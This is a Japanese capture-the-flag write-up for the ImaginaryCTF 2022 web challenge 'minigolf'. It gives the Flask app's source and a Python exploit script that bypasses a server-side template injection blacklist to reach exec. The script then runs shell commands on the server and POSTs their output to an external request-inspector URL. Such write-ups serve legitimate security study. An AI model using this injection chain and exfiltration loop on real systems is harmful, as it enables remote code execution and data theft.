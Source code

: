 ```yaml
---
layout: chall
ctf_name: imaginaryctf_2022
problem_name: minigolf
genre: web
solved_date: 2022-07-17
during_ctf: true
tag: [flask,ssti]
fav: false
difficulty: easy
---
```


### 概要

SSTI ができる flask のアプリケーションが与えられる。なお、`{{`, `}}`, `_`, `[`, `]` が縛られ、ペイロードに 69 文字の文字数制限がかかっている。また、ペイロードは挿入前に HTML エンコードされる。なので、`"` や `'` といった文字も実質的に縛られている。

<details><summary>コード</summary>

```py
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

</details>


### 解法

[minigolf](../minigolf) と方針はほぼ同じ。今回は `{{` および `}}` を用いることができないため、外部に HTTP リクエストを送信することでデータを取得することにする。

<details><summary>スクリプト</summary>

```py
import html
import requests

def send(query, raw=False, **kwargs):
  payload = query if raw else '{%if ' + query + '%}{%endif%}'
  print(f'[+] {len(html.escape(payload))=}, {payload=}')
  assert len(html.escape(payload)) <= 69
  req = requests.get(
    "http://minigolf.chal.imaginaryctf.org",
    {
      "txt": payload,
      **kwargs
    }
  )
  res = req.text
  print(f'[+] {html.unescape(res)=}\n\n')
  if not raw and "Error" in res:
    assert False

# config[dest] = src.attr
def sub_attr(dest, src, attr):
  send("config.F(config.V,request.args.v)", v=attr)
  send(f"config.F(config.{dest.upper()},{src}|attr(config.v))")
# config[dest] = src[item]
def sub_item(dest, src, item):
  send("config.F(config.V,request.args.v)", v=item)
  send(f"config.F(config.{dest.upper()},{src}.get(config.v))")


# s
send("config.setdefault(request.args.X,request.args.s)", X='S', s='__setitem__')
# f
send("config.setdefault(request.args.X,request.args.ff)", X='FF', ff="F")
send("config.setdefault(config.FF,config|attr(config.S))", X='F')
# v
send("config.setdefault(request.args.X,request.args.v)", X='V', v='v')
# w
send("config.setdefault(request.args.X,request.args.w)", X='W', w='w')

sub_attr('w', 'joiner', '__init__')
sub_attr('w', 'config.w', '__globals__')

sub_item('w', 'config.w', '__builtins__')
sub_item('w', 'config.w', 'exec')

while True:
  send("config.w(request.args.q)", q=f"""
r=__import__('urllib').request
r.urlopen(r.Request('https://requestinspector.com/inspect/01g85s4t9q77sty57kf0fyhksy', data=__import__('os').popen('{input('> ')}').read().encode(), method='POST'))
""")
```

</details>

